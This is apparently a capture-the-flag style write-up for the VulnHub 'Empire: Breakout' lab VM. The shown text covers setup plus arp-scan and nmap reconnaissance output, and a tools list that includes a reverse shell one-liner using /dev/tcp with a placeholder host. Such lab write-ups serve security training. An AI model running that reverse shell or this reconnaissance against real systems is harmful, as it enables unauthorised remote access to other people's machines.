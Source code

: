 ## Knowledge

- enum4linux -- enumeration of smb service
- reverse shell -- sh -i /dev/tcp/IP/port 0>&1
- getcap -- read the file's capability

## 1. Environment Setup

Download the [zip file](https://download.vulnhub.com/empire/02-Breakout.zip), setup the network to NAT, open with VMware.

## 2. Reconnaisence

### 1. IP Address

arp-scan scanner:

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ sudo arp-scan -l
[sudo] password for v4ler1an:
Interface: eth0, type: EN10MB, MAC: 00:0c:29:9d:5b:9e, IPv4: 172.16.86.138
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
172.16.86.1	5e:52:30:c9:b7:65	(Unknown: locally administered)
172.16.86.2	00:50:56:fd:f8:ec	VMware, Inc.
172.16.86.149	00:0c:29:c7:9d:d8	VMware, Inc.
172.16.86.254	00:50:56:fa:b5:64	VMware, Inc.

8 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.385 seconds (107.34 hosts/sec). 4 responded
```

### 2. Port Info

nmap scanner:

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ nmap -T4 -sC -sV -p- --open -oN nmap_scan 172.16.86.149
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-13 06:31 EST
Nmap scan report for 172.16.86.149
Host is up (0.0015s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.51 (Debian)
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-server-header: MiniServ/1.830
|_http-title: 200 &mdash; Document follows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2023-11-13T11:31:32
|_  start_date: N/A
|_nbstat: NetBIOS name: BREAKOUT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

```